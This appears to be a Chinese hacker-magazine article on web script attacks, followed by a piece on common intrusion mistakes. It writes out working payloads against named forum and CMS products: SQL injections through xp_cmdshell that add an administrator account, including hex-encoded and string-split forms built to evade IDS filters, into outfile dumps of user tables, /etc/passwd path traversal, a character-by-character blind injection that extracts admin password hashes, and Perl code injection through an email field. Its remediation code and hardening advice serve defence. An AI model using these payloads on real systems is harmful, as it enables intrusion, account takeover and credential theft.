然后把截获的 Cookie 数据修改一下，在没有过滤的变量那里构造特定的 SQL 语句，然后提交回去，就慢慢判断吧。由于条件和时间等诸多原因，未能测试截图。这里仅仅提一下这种方法。其实构造 Cookie 也不仅仅只能用在注入上的，早期的 BBSXP 版本是练习 SQL Injection 攻击技术最好的环境。

## （3）MYSQL

MYSQL 注入的资料相当少，因为 PHP 的安全性和 MYSQL 的特殊性，给很多操作带来阻碍。首先，MYSQL 4.0 以下的版本并不支持子查询语句，而现在还有相当一部分站点是用 MYSQL 3.XX 的。其次，在 php.ini 里假如 `magic_quotes_gpc=on` 的话，我们提交的 '（单引号），"（双引号），\（反斜线），null（空字符）会自动转为含有反斜线的转义字符。这样我们就无法注入了，而 php.ini 的该项又是默认打开的，这样就是以保证 Web 程序的安全、正常地运行了。如果再跑在 *nix 系统上，就更加无懈可击了。尽管层层设防，但注入技术还是存在的。

下面就假设在畅通无阻的情况下（MYSQL 4、magic_quotes_gpc=off）测试一下。看一些简单的例子：

```php
select * from login where user='$HTTP_POST_VARS[user]' and pass='$HTTP_POST_VARS[pass]'
```

这是一个验证用户名和密码的查询语句。由于没有对变量过滤，我们可以提交 `' or 1=1` 来进行注入，这时查询语句变为：

```sql
select * from login where user='1' or 1='1' and pass='1' or 1='1'
```

其实这个在 ASP 中的经典注入例子，在 PHP 里同样适用。

讲一个实际的例子，DCP-Portal v5.5 是国外厂商开发的一个 WEB 内容管理系统，能代替管理员远程管理整个站点。因为 advertiser.php 文件没有过滤用户提交的变量（其他的文件也存在这个问题），这时如果提交：

```
http://ilikekiss.com/dcp/advertiser.php?adv_logged=1&username=1&password=qwe' or 1=1 UNION select uid,name,password,surname,job,email from dcp5_members into outfile 'c:/apache2/htdocs/dcpad.txt'
```

很简单的 SQL 语句，利用查询语句查询 dcp5_members 表里的所有敏感信息，并输出到 `c:\apache2\htdocs\dcpad.txt` 文件。如果是 WINDOWS 系统的服务器，就会在 `c:\apache2\htdocs\` 目录下创建 dcpad.txt 文件，并记录了所有用户的一切敏感信息，当然也可以输出到 WEB 目录直接下载。

由于时间实在很紧，没有办法再去找什么漏洞。我现在再拿 PSKEY 所发现的 Discuz! 论坛的一个 SQL Injection 漏洞来分析一下，在此特别感谢 PSKEY。注意，只有 Discuz! 2.0.0609 版存在这个漏洞，0820 版的不存在。/discuz/include/common.php 的 sid 变量我们可以改变。有些人不会怎么去改变这个变量或者是不知道为什么用 index.php 来改变，看到 index.php 文件的开头部分，有这么一句：

```php
require "./include/common.php";
```

已经包含在 index.php 里了。所以我们构造 URL：

```
http://ilikekiss.com/discuz/index.php?sid=' or 1=1 into outfile 'f:/sa/s4t/info.txt' /*
```

如图 2、图 3、图 4。和上面的例子一样，也是输出文件。

### （4）注入技巧

我想不少人都看过一些关于 SQL Injection 针对 SQL Server 攻击的文章，都是因为变量过滤不足甚至没有过滤而构造畸形 SQL 语句注入的。因为没有碰到任何的过滤，所以我们相当轻松就注入成功了，如下：

```sql
http://ilikekiss.com/show.asp?id=1;exec master.dbo.xp_cmdshell 'net user angel pass /add'--
```

可是在不少服务器中，IDS 会检测到用户提交的变量含有特定字符，比如 xp_cmdshell、update、insert 等，将这些字符拆分开或转换。难得住刚入门的新手，难不住有底子的高手。利用 MSSQL 的强大功能，我们照样还是可以注入的，看这句：

```sql
http://ilikekiss.com/show.asp?id=1;declare @a sysname set @a='xp'+'cmdshell' exec @a 'dir'--
```

拆分命令字符串，就能绕过变换，然后把变量组合起来提交，这样就不会“分家”了。


这往往给大家造成误解，认为只要变量过滤了 '（单引号）就可以防止 SQL Injection 攻击。动网论坛 6.0 以前的版本 inc/char.asp 里面过滤特殊字符就是简单的过滤单引号，这为远程注入埋下了祸根。其实仅仅过滤 ' 是不够的，在 ' 过滤的情况下我们照样可以攻击，看下面的语句：

```sql
http://ilikekiss.com/show.asp?id=1;declare%20@a%20sysname%20select%20@a=0x6e006500740020007500730065007200200061006e00670065006c002000700061007300730020002f00610064006400%20exec%20master.dbo.xp_cmdshell%20@a;--
```

是不是跟上面的那句有很大区别？可是效果完全是一样的。其实这些都是 SQL 语句，其中，“0x6e006500740020007500730065007200200061006e00670065006c002000700061007300730020002f00610064006400”这句是“net user angel pass /add”的 16 进制格式。了解 SQL 的朋友……

## 3. 文本程序的攻击

由于一些程序对文件的处理不严格，导致用户非法操作，这类攻击危险性往往较大，轻则影响 WEB 程序的正常运行，重则威胁整个服务器。而攻击方法也多种多样，现在我只找几个具有代表性的例子加以分析说明。虽然漏洞并非我发现，但过程均为我亲手测试。

### （1）改写文件内容、代码的例子

有些文件会记录一些用户信息，比如系统类型、版本、IP、Cookie 等。当这些信息未经过滤便进行处理的时候，用户就有可能构造一些特殊内容写入文件。当管理员浏览的时候就被攻击了，或者改写文件的代码，使这些文件具有特殊功能。或者有些程序在储存用户提交的资料时，没有对变量进行过滤或者仅仅做了一点过滤，使得非法用户构造一些特殊的代码，达到自己的目的。

借用 BBS3000 论坛举个小例子，ylxiu.cgi 文件的 139 行是这样写的：

```perl
if(!($mail=~ /.*\@.*\..*/)) {
&errorview('您的 Email 输入错误！');
exit;
}
```

只判断是否含有“@”、“.”（半角句号），根本没有过滤其他字符比如“#”。我们注册以后，/b3/yhzl/angel.cgi 的内容是这样的：

```
ilikekiss angel
suckey@hotmail.com 2003-
11-02 男
```

我们修改资料的时候，可以在 email 地址那做文章，只要含有“@”就可以了。注意，只能输入 80 个字节。现在提交：

```
;rename("d:/b3/setup.cgi","d:/b3/setup.txt");#a@a.net
```

这样我们的用户文件 /b3/yhzl/angel.cgi 里，就会变成：

```
"ilikekiss angel","rename("d:/b3/setup.cgi","d:/b3/setup.txt");#a@a.net"
2003-11-02 男
```

perl 内置函数 `rename()` 就写在 angel.cgi 里面了。用浏览器浏览 /b3/yhzl/angel.cgi，成功执行后，论坛的配置文件 setup.cgi 就被改名为 setup.txt 了，所有论坛敏感信息均暴露在我们手里了。这就是一个简单的改写文件内容的例子。

### （2）showfiles 的例子

还是拿 yuzi 的 BBS3000 论坛来举例，bbs.cgi 文件里面有一段代码是这样写的：

```perl
$id=$FORM{'id'};
$see=$FORM{'see'};
$emote=$FORM{'emote'};
$username=$FORM{'username'};
$yhf=$FORM{'yhf'};
$userpsd=$FORM{'userpsd'};
$titles=$FORM{'titles'};
$comment=$FORM{'comment'};
$search=$FORM{'search'};
$sign=$FORM{'sign'};
$menu=$FORM{'menu'};
$no=$FORM{'no'};
$replytime=$FORM{'replytime'};
$retitles=$FORM{'retitles'};
$deltitle=$FORM{'deltitle'};
$rdcomment=$FORM{'rdcomment'};
$listtitle=$FORM{'listtitle'};
```

大家可以看到程序并没有过滤用户提交的变量，这样我们可以查看任何文本文件的内容。因为程序的原因，只能查看第一行，我们提交：

```
http://ilikekiss.com/bbs3000/bbs.cgi?id=../../../etc/passwd%00  // 只要路径正确就可以看到 passwd 文件的内容

http://ilikekiss.com/bbs3000/bbs.cgi?id=../../yhzl/angel.cgi  // 可以查看 angel 的密码

http://ilikekiss.com/bbs3000/bbs.cgi?menu=addreply&id=200204152004&replytime=../../yhzl/angel.cgi&quote=1&yhf=a@a.net  // 可以查看 angel 的密码
```

这个就是很常见的 showfiles 类 CGI 漏洞的攻击。更详细的可以看看刺的那篇“再次利用 show files 类 cgi 漏洞成功入侵 uta.edu 的经历”。

## 四、后台分析

声明：以下漏洞均为安全天使小组成员发现。

### 1. Myarticle 文章管理系统的漏洞

phparticle 恐怕是最红最爽的 PHP 文章管理系统了，且毕竟是商业程序。虽然我有这套程序，但我没有用，还是尊重作者吧。没有钱就老老实实用 Myarticle 了。Myarticle 是免费用户的首选。后台管理功能强大，前台简洁清爽，速度快，作为一个专业的站点最适合不过了。个人认为比夜猫的好，所以我一直用。作为一个安全站点，使用的程序有漏洞是可悲的，被该漏洞黑了是可怜的。再完美的程序也有出状况的时候，估计 Myarticle 也不差。就从我做起，分析一下源代码，结果发现两个漏洞。

### （1）漏洞一

涉及版本：Myarticle 0.02 以下

描述：由于后台管理入口验证代码存在严重缺陷，导致任何用户只需在用户名里输入任何字符就可进入后台。

详细：在 admin/admin_global.inc.php 文件里 151 行的代码是这样写的：

```php
function verifyUser($name, $pwd) {
  global $DB_site,$table_user;
  $usrpwd = $DB_site->query_first("select password FROM $table_user where username = '$name'");
  return $pwd==md5($usrpwd);
}
```

看出问题了吧？因为输入的是个不存在的用户名，所以它的密码肯定为空，自然就能登录了。

解决办法：将上面的代码改为：

```php
function verifyUser($name, $pwd) {
  global $DB_site,$table_user;
  $usrpwd = $DB_site->query_first("select password FROM $table_user where username = '$name'");
  $num=mysql_affected_rows($DB_site->link_id);
  if ($num) {
    if ($pwd==md5($usrpwd)) return true;
  }
  return false;
}
```

其实这个漏洞好像 0.03 也存在，可测试了网上几个 0.03 的站点，有些可以，有些不可以。在本地调试 0.03 的就不能利用。不知何故？哪位高手能指点一二？感激不尽！

### （2）漏洞二

涉及版本：目前所有版本

描述：由于 category.php、article.php、print.php 等多个文件对用户提交的变量过滤不足，导致非法用户可以进行 SQL Injection 攻击。

# 主题乐园

详细：这几个文件的相关代码是这样写的（这几个文件的代码不一定相同）：

```php
if (!isset($aid)){
    showerror('error_articleid');
}
...
$article=$DB_site->query_first("SELECT $table_article.*,$table_page.* FROM $table_article LEFT JOIN $table_page USING (articleid) WHERE $table_article.articleid=$aid and $table_page.pagenum=$page");
```

没有检查用户提交的变量。不过在 PHP 里让人们克服困难，因为 MYSQL 4 以下的版本是不支持子语句的，而且新版本的 php.ini 里的 magic_quotes_gpc 选项默认是 On 的。当 magic_quotes_gpc 打开时，所有的 "'"（单引号）、"\""（双引号）、"\\"（反斜线）和空字符会自动转为含有反斜线的转义字符。这样我们就无法注入了。所以注入语句就不说了，大家自己看看相关 MYSQL 语句，然后再碰碰运气尝试加用户吧！这也是检验学习成果的一种途径。

解决办法：检查用户输入的代码，比如检查提交的数据是否为数字类型。将以下代码：

```php
if (!isset($aid)){
    showerror('error_articleid');
}
```

改为：

```php
if (!isset($aid)){
    showerror('error_articleid');
}
$did=str_replace("'", "", $aid);
if (is_numeric($did)==0 || $did=="")
{
    print "非法参数";
    exit();
}
```

## 2. 盗帅下载系统的漏洞

- **此部分作者**：sniper（逢源）
- **涉及版本**：盗帅下载系统 2.0
- **描述**：盗帅下载系统是个使用较广泛的 ASP 下载系统，在其 2.0 版以前的系统中都存在着严重的 SQL Injection 漏洞，攻击者可直接得到下载系统的管理员密码。

具体：10 月 6 日，盗帅下载系统正式版 2.0 发布，7 日顺便看了一下，发现最新版中的系统虽然解决了以前存在的一些 SQL Injection 漏洞，并且密码字段信息也使用 MD5 进行了加密，但其 review.asp 文件仍然存在着 SQL 注入漏洞，可能导致密码信息的泄露。看 review.asp 文件中的部分代码：

```asp
Set rs=Server.CreateObject("ADODB.Recordset")
sql="select * from review where numSoftid="&request.QueryString("id")&" order by dateRtime desc"
rs.open sql,conn,1,1
rs.PageSize = numlong
Tol = rs.PageCount
if Not(rs.EOF) Then
    rs.AbsolutePage = absPageNum
End If
```

代码对于递交的变量并没有进行过滤，这样我们就可以构造带有查询功能的 SQL 语句插入系统将递交的查询语句中，再根据 WEB 返回的信息来判断数据库中的信息。我们通常可以简单的通过在 URL 后加入一个等式和一个不等式来判断 ASP 程序是否存在该漏洞。通常存在这个漏洞的系统对于在 URL 后加等式仍然可以正常显示，而如果添加一个不等式则会出现出错信息，有可能是无法找到 XXX，也有可能是返回找不到该页的返回信息，这个是根据服务器配置和系统的编写情况决定的。因为我们是通过返回信息的差异来判断的，所以只要返回页面有不同的地方就可以了。

关于为什么加等式和不等式会出现不同的页面，我们可以这样的简单理解：系统以递交的变量的标准查询该数据是否在数据库中存在，而在 SQL 查询语句中，可以通过逻辑运算符来连接多个变量（条件），因为我们将想要查询的变量插入了系统的查询语句中，查询语句的变量就变成：A AND 1=1，当我们插入的语句结果为真时，那么 2 个条件均为真，总结果为真，等式成立。所以可以返回正常的信息。而当我们递交：A AND 1=11 时，2 个条件中有一个为假，总结果也为假，等式不成立，所以系统返回出错的页面（因为是个人理解所以可能存在一些错误，欢迎指出）。

**实例**：
盗帅文章系统 2.0 中 review.asp 这个文件是用于递交用户对软件的评价的。所以我们先在一个软件下载页面上递交一条留言，内容随便。递交完一条留言后就可以看到自己的留言了，现在我们递交等式进去看看页面信息是怎么样的。

看见了吗？加等式会显示你的留言内容，如果是不等式，就会返回“还没有评论，等待你的添加哦^-^”的信息，呵呵，有这个就足够了！我们现在就可以通过 SQL 注入来得到管理员密码！

看看他数据库的结构吧！默认管理员密码的信息是保存在 ADMIN 表中，用户名是 admin 列，密码是 pws 列，密码是 MD5 加密过的，长度为 32。

这是开放代码的程序，所以我们可以很快知道数据库的结构，如果是代码不公开或是对方改了数据库结构呢？我们可以通过以下 URL 来得到数据库的结构：

`http://ilikekiss.com/down/review.asp?id=1%20or%200<>(select%20count(*)%20from%20admin)`

在正常的 URL 后面加 `or 0<>(select count(*) from admin)`，其中 admin 是我们要猜的表名。如果可以正常显示则说明我们猜对了。

`http://ilikekiss.com/down/review.asp?id=1%20and%200<>(select%20count(*)%20from%20admin%20where%20admin)`

在正常的 URL 后面加 `and 0<>(select count(*) from admin where admin)`。不要搞混淆了，前一个 admin 是表名，后一个是列名。因为他这个数据库里保存用户的列本来就是 admin。

`http://ilikekiss.com/down/review.asp?id=1%20and%200<>(select%20count(*)%20from%20admin%20where%20pws)`

同上，在正常 URL 后加 `and 0<>(select count(*) from admin where pws)`。其中，“admin” 是表名，“pws” 是列名。这样，我们就同样得到了 admin 表中包含 admin 列 and pws 列的信息，当然入侵中不可能这么顺利，如果猜错了，页面会返回错误信息。下一步我们应该是猜管理员 ID 了，不过我一般不会猜这个，在论坛找找管理员名单或系统中更新的人的 ID，差不多就是了，包括一些安全站点提供。递交以下 URL 来确定用户名是否是管理员组的：

`http://ilikekiss.com/down/review.asp?id=1%20and%20'admin'=(select%20admin%20from%20admin%20where%20admin='admin')`

在正常 URL 后加 `and 'admin'=(select admin from admin where admin='admin')`，解释一下，第一个和第五个 “admin” 是我们要猜的管理员 ID，第二个和第四个是保存 ID 的列名，第三个是保存管理员 ID 的表名。如果 admin 的确是管理员组的话，等式自然成立了，页面也该正常返回。先猜密码位数吧：

`http://ilikekiss.com/down/review.asp?id=1%20and%20'admin'=(select%20admin%20from%20admin%20where%20len(pws)>16)`

猜测密码大于 16 位，返回“子查询最多能返回一个记录”，这是正常的，因为所有人的密码都是加密过的，当然位数一样啦，再猜：

`http://ilikekiss.com/down/review.asp?id=1%20and%20'admin'=(select%20admin%20from%20admin%20where%20len(pws)=32)`

返回的页面和上面一样，说明管理员加密后的密码是 32 位。如果猜错了，会返回“还没有评论，等待你的添加哦”的信息。

`http://ilikekiss.com/down/review.asp?id=1%20and%20'admin'=(select%20admin%20from%20admin%20where%20left(pws,1)='e')`

猜测第一位密码为 e，如果正常显示说明猜对了。

`http://ilikekiss.com/down/review.asp?id=1%20and%20'admin'=(select%20admin%20from%20admin%20where%20left(pws,2)='e0')`

猜测前两位密码为 e0。如果 32 位密码都这样猜，会猜到明天去的，所以我把 wava 写的动网文章系统注入漏洞的利用程序改了一个，可以猜解盗帅管理员密码了。

感谢 wava，用法：

```bash
daoshuai.pl <host> <way> <articleID> <errInfo> <username>
D:\daoshuai.pl 1.1.1.1 /downad/2/review.asp 1 "还没有评论，等待你的添加哦" admin
```

格式很清楚了：`c:\程序名 IP 路径 文件ID "出错信息" 管理员ID`。成功后得到密码，再用破解 MD5 密码的工具破解密码就是了。

**防范**：
在 review.asp 中加入：

```asp
<%
if IsNumeric(request.QueryString("id")) = False then
    response.write("请勿输入非法字符")
    response.end
end if
%>
```

即可弥补该漏洞，另外官方站点已发布补丁（http://www.daoshuai.com）。

## 五、各种脚本攻击的防范

虽然脚本攻击技术种类多种多样，攻击方式灵活多变，但防范思路和方法是明确的、单一的。除了跨站攻击不能通过配置服务器防范外，其他的攻击都可以通过加强服务器的安全配置达到防范的目的。

但问题出在 WEB 程序本身。我们还是从根本抓起，从 WEB 程序代码中解决现有问题。由于修补代码过于冗长，仅给出关键代码，大家可以自行完善。如像大多数文章、软件管理系统那样，使用 id 变量来调用信息的，就检测 id 是否为数字类型。可以这样来检查：

## 1. ASP

```asp
if isNumeric(request.QueryString("id")) = False then
    response.write("请勿输入非法字符")
    response.end
end if
```

### 2. PHP

```php
<?php
if (is_numeric($_GET["id"]) == false)
{
    print "请勿输入非法字符";
    exit();
}
?>
```

如果变量并非是简单的数字类型，我们就要过滤单引号、分号、— 等这些字符，我们可以这样来检查，注意，这里只是范例，更多方法请大家自行发挥。

### 3. ASP 过滤函数

```asp
<%
function checkStr(str)
    if isnull(str) then
        checkStr = ""
        exit function
    end if
    checkStr=replace(str,"'","''")
    checkStr=replace(str,";","")
    checkStr=replace(str,"--","")
end function
%>
```

### 4. PHP 过滤函数

```php
function gpc2sql($str) {
    if(get_magic_quotes_gpc()==1)
        return $str;
    else
        return addslashes($str);
}
```

这段代码有点特别，自定义一个函数，先用 get_magic_quotes_gpc() 函数检查 magic_quotes_gpc 的状态，如果不是打开的，就利用 addslashes() 这个函数自动在敏感字符前添加反斜杠。我的思想是既然是程序出了问题，虽然靠系统配置可以解决问题，但既然问题出在程序，干吗不从程序代码入手呢？

## 六、服务器的设置

## 1. IIS 的设置

IIS 其实是一个非常好的 WEB 服务器软件，并不是不安全，而是没有充分配置好。入侵者为什么获得这么多的信息？为什么能执行 WEB 后门？为什么能执行这么多种操作？其实都是没有设置好。下面就充分设置一下，加强安全性。

“主目录选项卡”的设置：这样能最大限度的控制脚本的权限。其次进入“应用程序配置”→“应用程序调试”，把“脚本错误信息”选中“发送文本错误信息给客户”。进入“应用程序配置”→“应用程序映射”，把需要限制的“动作”改为限于“GET, HEAD, POST”。

动作不需要这么多的。全部的动作就是 OPTIONS, TRACE, GET, HEAD, DELETE, PUT, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, LOCK, UNLOCK。如果允许全部动作我们可以用 NC 做很多事，呵呵，这不是本文讨论范围。最后最好能装一个 IIS ISAPI 过滤器——IISShield 1.0.2（下载地址：http://www.kodeit.com/tools/iisshield.htm），它可以保护 IIS 以避免受到 internet 上所有已知和未知的攻击。这样 IIS 就更安全了。至于 Apache 的安全配置，由于内容太多了这里就不写出来了。大家可以参考相关论坛。

## 2. SQL Server 的设置

为 Web 应用程序创建一个专门的用户。服务器角色选：Database Creators，数据库角色允许中选择：“public”、“db_owner”。这样基本可以很好的运行 Web 应用程序。还有就是删除 xp_cmdshell 扩展存储过程，并且删除 xpsql70.dll。去掉不需要的注册表访问的存储过程。注册表存储过程甚至能够读出操作系统管理员的密码来，如下：

- Xp_regaddmultistring
- Xp_regdeletekey
- Xp_regdeletevalue
- Xp_regenumvalues
- Xp_regread
- Xp_regremovemultistring
- Xp_regwrite

SQL Server 强大的功能不得不让我们加紧提防。

## 3. php.ini 的设置

在 PHP 中，php.ini 是配置文件，这个配置的一点改动，都能影响服务器的安全性。建议按照下面推荐的来设置：

- **display_errors=Off**
  关闭“显示错误”功能，这样能防止出错信息显示在客户端浏览器上。入侵者就难以获取有用信息。
- **magic_quotes_gpc=On**
  当该项打开时，所有的 '（单引号）、"（双引号）、\（反斜线）and 空字符会自动转义含有反斜线的转义字符。可以防止注入。
- **register_globals=Off**
  有很多程序都要打开，可以先测试运行是否正常再做修改。
- **safe_mode=On**
  该项对很多函数进行了限制或禁用了，特别是和系统相关的文件打开、命令执行等函数，能在很大程度解决 php 的安全问题。

## 七、后记

这篇专题就写完了，其中有很多内容我都没有写出来，或者是没有很清楚，对不起大家了。在以后的文章里，我会针对某种技术写的，比如 SQL Injection with Oracle，毕竟专题包括的内容实在太多了，我一个人真的是难以写完全，如果大家发现有错误或是和我交流的，请到安全天使论坛来找我。

最后给大家一些忠告，脚本攻击技术的前提就是掌握各种语言和数据库的语法，还有就是耐心、细心。本文仅作为学术交流，请不要对国内任何主机进行破坏，否则后果自负。

---

入侵过程中你是否遇到过莫名其妙的问题？一大堆的提示是否阻止了你入侵的步伐？本期的主题基本上涵盖了大家在入侵测试中遇到最多的几个方面的问题！仔细看，没准就是针对你的问题写出来的主题乐园哦！

## 常见入侵错误原因分析与探讨

**作者**：齐峰、侯宁（西安）、王建新（上海）

在学习黑客技术的道路上，初学者往往由于经验不足，自己分析解决问题的能力略有欠缺，可能在某一个问题上耗费过多的时间。本文就是来帮助大家解决在常见的网络入侵与防范过程中，初学者容易出现的一些问题，分析一些常见的入侵陷阱。本文既是作者的入侵经验总结，也是对一些常见问题的整理，希望大家读完本文，在以后的入侵测试和黑客技术学习中，能够少依赖他人，多自主探索。

## 原理性误解

这部分所要讲述的主要是刚刚接触黑客技术的朋友们最容易出现的一些错误，这些错误通常是由于自己的基础知识不够扎实所造成的。

- 1. 一些朋友在进行扫描后不仔细分析扫描报告和其他的一些相关信息，就急急忙忙准备利用相关的入侵工具进行漏洞攻击。图 1 是一份扫描报告中的 CGI 漏洞部分。其中就有 /null.idq，有的朋友就开始不停地使用 IDQ 漏洞溢出工具来进行攻击，却总是无法成功。要知道扫描器报告的漏洞并不是就一定存在，只是说存在较大的可能性。如果我们在多次尝试下还不能够溢出成功，那么就应当及时放弃，转而寻找其他的漏洞，不要将宝贵的时间全部浪费在这一个漏洞上。
- 2. 扫描器检测 CGI 漏洞时，大多数是通过查看返回页面的 HTTP 代码来判断漏洞是否存在。显然，只要系统管理员根据这条规则进行伪装……

# 主题乐园

原则来进行一些修改就可起到误导扫描器的作用了。我们检测 IDQ 漏洞时一般会在浏览器中手工输入 `xxx.xxx.xxx.xxx/123.idq`（扫描器原理也大致相同），如果返回的页面是 HTTP 200，那么就很可能存在这个漏洞；如果返回的是 HTTP 404 或其他一些页面，就多半可能不存在这个漏洞。假如管理员对相应的文件进行了重定向或修改，那么就可能掩盖真实的漏洞，却暴露出实际上并不存在的漏洞。这时扫描器的扫描结果自然也就不可信了。

**[CGI 漏洞]**

- /null.ida [漏洞描述]
- /iissamples/exair/search/qfullhit.htw [漏洞描述]
- /iissamples/exair/search/qsumrhit.htw [漏洞描述]
- /iissamples/iissamples/opp/qsumrhit.htw [漏洞描述]
- /iishelp/iis/misc/iirturn.htw [漏洞描述]
- /iissamples/iissamples/opp/qfullhit.htw [漏洞描述]
- /script/samples/search/qsumrhit.htw [漏洞描述]
- /script/samples/search/qfullhit.htw [漏洞描述]
- /null.idq [漏洞描述]
- /abc.xrw.htm [漏洞描述]
- /index.asp%81 [漏洞描述]

当然，如果我们使用 `net user` 命令来建立一个账户，自然也是建立在对方的计算机上。而成功建立 IPC$ 后，会提示“命令成功完成”，这时我们所作的一切操作仍然还是在自己的电脑上，我们仍然没有取得对方电脑的控制权，这与缓冲区溢出漏洞攻击获得的 shell 是不同的。

### 2. 本地和远程并不分

曾在一本安全杂志的创刊号上看到过这样一篇文章，里面说到在建立了具有管理员权限的远程 IPC$ 后，就直接在自己的电脑上 `net user` 来建立管理员账户了。这样的错误出现在一本安全杂志上实属不该，但是这种本地和远程不分错误的普遍性也由此可见了。

建立 IPC$ 后，我们仍然是在自己的电脑上进行操作，这时用 `net user` 命令来建立管理员账户自然也还是给我们自己的电脑建立用户。这与通常使用的缓冲区溢出漏洞攻击是不一样的。在我们使用缓冲区溢出漏洞攻击时，成功建立连接，并能接到溢出的端口，如果成功，则会出现一个类似如（图 2）的界面。

> **建立管理员权限的 IPC$ 和漏洞溢出得到的 shell：**
> 
> 成功建立 IPC$：
> 1. 还没有入侵到对方系统内
> 2. 仍然在本机操作
> 3. 无法给对方建立管理员账户
> 4. 没有获得对方文件的读写权限
> 
> 漏洞溢出的 shell：
> 1. 已经入侵到对方系统内
> 2. 在操纵对方的电脑
> 3. 可以给对方建立管理员账户
> 4. 获得对方文件一定的读写权限

这时我们不但可获得对方操作系统版本的详细信息，更重要的是我们已经获取了一定的权限（多数为 system 权限），而这里的 `D:\WINNT\system32` 就是对方的系统文件夹目录了，而如果我们此时输入 `dir`，看到的就是对方计算机 system32 文件夹下的文件和目录了。

## 3. 操作系统判断错误类

学习黑客技术的朋友，首先会遇到的就是操作系统类型判断的问题。因为不同的操作系统，一般来说存在的漏洞、攻击方式都会有比较大的区别。如果不能准确判断出操作系统的类型或是判断错误，将导致所做的一切入侵和攻击努力都付之东流。

网上很多文章都讲到了用 `ping` 命令返回的信息来判断目标主机，称返回值“TTL=128”为 Win2000 或 WinXP 平台的机器，“TTL=255”就是 UNIX 平台的机器。实际上这种说法是不确切的，原因主要有两点：

（1）我们在使用 `ping` 命令时经常会发现，TTL 返回值除了 128 和 255 两种以外，127、126、254、253 等数值也很常见，这种现象就使很多初学者迷惑了。准确的说法应当是：“TTL 返回值在 128 附近的目标主机可能为 Win2000 或 WinXP 系统，255 附近为 UNIX 系统。”

（2）有时我们会发现，明明一台机器已经确定了是 Win2000 系统，TTL 返回值却在 255 附近。这主要是因为 TTL 返回值可以通过更改操作系统的注册表来实现。

> TTL（Time To Live）指一次数据包在网络中的生存时间，每经过一个路由器 TTL 就减去 1。

最简单的测试方法是 `ping` 和自己相邻网关的 IP 地址，观察数据包经过我们自己所属网关后，可以知道 TTL 减少了。

**修改 TTL 值的方法：以改成 UNIX 类的 255 为例。**
1. 新建一个记事本文本文件。
2. 在其中输入如下内容：

```text
REGEDIT4

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters]
"DefaultTTL"=dword:000000ff
```

3. 保存后将文件后缀名改为 `.reg`。
4. 双击该文件以导入注册表。

**对应的 TTL 值：**

| 十进制 | 十六进制 |
| :--- | :--- |
| 255 | FF |
| 128 | 80 |
| 64 | 40 |
| 32 | 20 |

另外，我们通过 `telnet` 到对方的 80 端口，然后输入 `get`，回车后根据 banner 信息来判断操作系统（图 3）。有时也可能不准确，因为 banner 信息也是可以通过更改文件来改变的。

还有种比较常见的错误是认为只要开放了 21 端口的主机就一定提供了 FTP 服务，只要开放了 80 端口的主机就一定提供了 WEB 服务。扫描器在进行端口扫描时只是按照各个端口默认对应的服务进行辨别。在微软的操作系统中，21 端口默认被作为 FTP 服务所使用的端口，但是系统管理员完全可以更改为其他的端口，同样也可以将其他的服务设置为 21 端口使用，这样我们要是再针对 21 端口使用 FTP 的一套攻击方法就显然行不通了。管理员把 FTP 端口开在 2121 也是可能的（图 5）。

- 1. WEB 的 Banner 信息存放在系统目录的 `system32\inetsrv\w3svc.dll` 中，管理员只需要选择打开方式为记事本来打开这个文件。尽管打开这个文件的时候提示说里面的似乎全部是乱码，不过不要紧，只要利用记事本的查找功能查找关键字 `5.0` 就可以了。然后管理员就可以根据需要用 16 进制编辑器随意修改了。
- 2. 修改 FTP 的 Banner 和 SMTP 的 Banner 信息分别需要修改 `ftpsvc.dll` 和 `smtpsvc.dll` 文件。
- 3. 对于开启了 telnet 服务的机器，入侵者在 telnet 的时候也会暴露系统信息（图 4）。这句话就说明了是微软的操作系统，我们只需要修改 `system32` 文件夹下的 `login.cmd` 文件中的内容就可以了。

### 5. 公网与内网 IP 类

有的朋友将一些早期的木马在一个内部局域网（如 IP 为 192.168.xxx.xxx）种下后，会问到为什么后来自己在家中拨号上网通过客户端却无法连接到木马的服务器端（例如冰河）。这实际上是没有很好地区分公网与内网 IP 两个概念。

由于目前全球 IP 地址资源日趋紧张，所以不少网吧、企业都只能获得一个公网 IP 地址，但是一个 IP 地址显然是不够用的。所以他们就通过路由器等设备建立一个内部局域网，内部局域网 IP 通常采用规定类别 192.168.xxx.xxx 这样的 IP 地址。早期的被动式连接木马实际上相当于客户端处于一个公网 IP 上，而服务器端却处于一个路由器后的私有 IP 上，这当然无法成功建立连接了。只有当服务器端处于公网 IP 上或者与客户端同处于一个局域网时才有可能建立连接。解决这种问题的方法是使用目前流行的端口反弹式木马，让服务器端主动去寻找客户端，这样不但可以避开网络结构上的阻碍，还可穿透一些防火墙的限制。

> **注意：**修改这些 DLL 文件前应当首先关闭 `w3svc` 服务，并且删除 `dllcache` 文件夹下的相关文件，这是为了防止 Windows 保护机制自动还原这些文件。

## 6. 关于 $

有的朋友说一次入侵中通过 3389 的终端在对方的用户管理界面中看到了一个管理账户叫 `jacker$`，但是为什么在 telnet 界面下用 `net user` 命令查看不到这个账户呢？这个符号就代表了隐藏。Win2000 的默认共享就是 `c$`、`d$` 之类的，在名称后加上 `$` 可以起到隐藏的作用，尽管这些共享存在，但是我们一般情况下是看不到的。在账户名后加上 `$` 可以使得在命令行模式下隐藏账户，这也是一些入侵者留隐藏账户的小手段之一。不过这样做的缺点是在图形界面下会一览无余。

那么利用扫描器软件来进行判断是否就一定准确呢？尽管说扫描器通过判断操作系统协议栈来识别操作系统的方法具有更好的科学性和准确性，但是也仍然不是完美的。笔者就曾遇到一台机器明明入侵进去后是 Win2000 的系统，但是扫描器却说是 Win98 的系统（注：这种情况有的时候可能是由于网络中存在特殊的网络结构造成的）。究竟什么样的方法才能够帮助我们最准确地判断出操作系统呢？这里我们建议大家使用多管齐下的方法。Banner 信息、扫描器、TTL 值判断法一起使用，应该说这样对操作系统的识别准确率可以达到 95% 以上。

## 软件使用

学习计算机知识就是学习软件的使用方法，这话一点不假。由于现在学习黑客技术的条件越来越方便，门槛越来越低，不少计算机基础并不太好的朋友也开始对黑客技术感兴趣。有的时候在软件的使用上就会出现一些误解，这部分我们就来列举一些常见的例子，让大家少走一些弯路。

## 4. 端口误解

不少朋友从网上下载了扫描器后就使用默认设置开始扫描，扫描完成后便开始抱怨对方怎么只开放了那么少的端口，无法入侵。要知道有些软件是按照默认设置工作的，例如 Xscan 扫描报告的端口扫描部分如图 6 所示。

```text
已开放端口：

端口 135 开放：Location Service
[Banner]
[None]
[End of banner]
